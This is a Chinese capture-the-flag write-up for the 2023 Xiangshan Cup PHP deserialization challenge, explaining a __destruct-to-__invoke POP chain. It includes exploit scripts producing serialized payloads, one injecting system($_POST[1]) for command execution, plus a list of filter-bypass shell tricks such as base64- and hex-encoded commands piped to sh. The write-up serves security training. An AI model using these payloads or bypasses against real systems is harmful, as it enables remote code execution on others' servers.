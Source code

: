 ```yaml
---
layout: mypost
title: "[香山杯 2023]PHP_unserialize_pro"
categories: [ctf_wp]
---
```


## 前言

香山杯的这道题其实反序列化一眼就能看出 pop 链，难的可能就是这个正则的绕过方法，多刷题多总结就行了。

## 解题

1.观察源码

![](1.png)

```php
<?php
    error_reporting(0);
    class Welcome{
        public $name;
        public $arg = 'welcome';
        public function __construct(){
            $this->name = 'Wh0 4m I?';
        }
        public function __destruct(){
            if($this->name == 'A_G00d_H4ck3r'){
                echo $this->arg;
            }
        }
    }

    class G00d{
        public $shell;
        public $cmd;
        public function __invoke(){
            $shell = $this->shell;
            $cmd = $this->cmd;
            if(preg_match('/f|l|a|g|\*|\?/i', $cmd)){
                die("U R A BAD GUY");
            }
            eval($shell($cmd));
        }
    }

    class H4ck3r{
        public $func;
        public function __toString(){
            $function = $this->func;
            $function();
        }
    }

    if(isset($_GET['data']))
        unserialize($_GET['data']);
    else
        highlight_file(__FILE__);
?>
```

一步一步来，先找一下危险函数在哪里，很明显就是 G00d 里面的 eval 函数，那么想要触发这个函数，就得先触发 G00d.invoke（）这个魔术方法。

```
__invoke()：当尝试以调用函数的方式调用一个对象时，__invoke() 方法会被自动调用
```

很明显，让令 H4ck3r 类里面的$func让它等于一个对象就可以，然后这个$function()是在 H4ck3r.tostring 里面的，要想要触发这个 tostring（）函数的话，就是要先到 Welcome.destruct()函数，因为正则匹配就是针对于字符串的匹配，把这个要匹配的字符串传成一个对象即可。

```
__toString()：当一个对象被当作一个字符串时使用
```

再看，反序列化的实质就是将字符串转换为对象，虽然也是生成了一个对象，但这个过程确实是不会去触发构造函数的（构造函数只有 new 才会触发），但是这个对象被销毁的时候，一定是会触发析构函数的，所以这个析构函数所在的类，就是要序列化的对象，序列化这个对象，才可以将各个类联系起来。

pop 链

```
__destruct()->__toString()->__invoke()
```

2.编写 exp 如下-->

```php
<?php
    error_reporting(0);
    class Welcome{
        public $name;
        public $arg = 'welcome';
        public function __construct(){
            $this->name = 'Wh0 4m I?';
        }
        public function __destruct(){
            if($this->name == 'A_G00d_H4ck3r'){
                echo $this->arg;
            }
        }
    }

    class G00d{
        public $shell = "strtolower";
        public $cmd = 'dir ../../../../../';#查看文件名
        public $cmd = "show_source(chr(47).chr(102).chr(49).chr(97).chr(103));";

    }

    class H4ck3r{
        public $func;
        public function __toString(){
            $function = $this->func;
            $function();
        }
    }
$a = new Welcome();
$b = new G00d();
$c = new H4ck3r();
$a->name = "A_G00d_H4ck3r";
$a->arg = $c;
$c->func = $b;
echo serialize($a);
?>
```

先用第一步查看根目录下有一个名为 f1ag 的文件，然后再读取就行了，分别对应着上面两个 cmd 里面的内容，记得是分别序列化。总结一下 flag 关键字被过滤还有哪些方法-->

```
反斜线转义 cat fla\g.php

两个单引号做分隔 cat fl''ag.php

base64编码绕过 echo Y2F0IGZsYWcucGhw | base64 -d | sh

hex编码绕过 echo 63617420666c61672e706870 | xxd -r -p | bash

glob通配符 cat f[k-m]ag.php cat f[l]ag.php

?和*

cat f{k..m}ag.php

定义变量做拼接 a=g.php; cat fla$a

内联执行cat echo 666c61672e706870 | xxd -r -p 或 cat $(echo 666c61672e706870 | xxd -r -p) 或 echo 666c61672e706870 | xxd -r -p | xargs cat
```

## 记录

在网上看到另一种写法，具体如下：

```php
<?php
    class Welcome {
        public $name;
        public $arg = 'welcome';
    }

    class G00d {
        public $shell;
        public $cmd;
    }

    class H4ck3r {
        public $func;
    }

$h = new H4ck3r();
$w = new Welcome();
$g = new G00d();
$w->name = "A_G00d_H4ck3r";
$w->arg = $h;
$h->func = $g;
$g->shell = "urldecode";
$g->cmd = "system(\$_POST[1]);";
echo serialize($w);

//O:7:"Welcome":2:{s:4:"name";s:13:"A\_G00d\_H4ck3r";s:3:"arg";O:6:"H4ck3r":1:{s:4:"func";O:4:"G00d":2:{s:5:"shell";s:9:"urldecode";s:3:"cmd";s:18:"system($\_POST\[1\]);";}}}
```

![](2.png)

还有一点绕过姿势，简单记录

```php
 class G00d{
        public $shell = "system";
        public $cmd = 'dir ../../../../../';#查看文件名
        public $cmd = "more /[e-h]1[0-b][e-h]";#1
        public $cmd = "sort /[!q]1[!q][!q]";#2
        public $cmd = "cd /;echo `more dir`";#3
        public $cmd = "cd /;more `php -r "echo chr(102).chr(49).chr(97).chr(103);"`";";#4
    }
```

![](3.png)

师傅们确实强 ORZ，ORZ。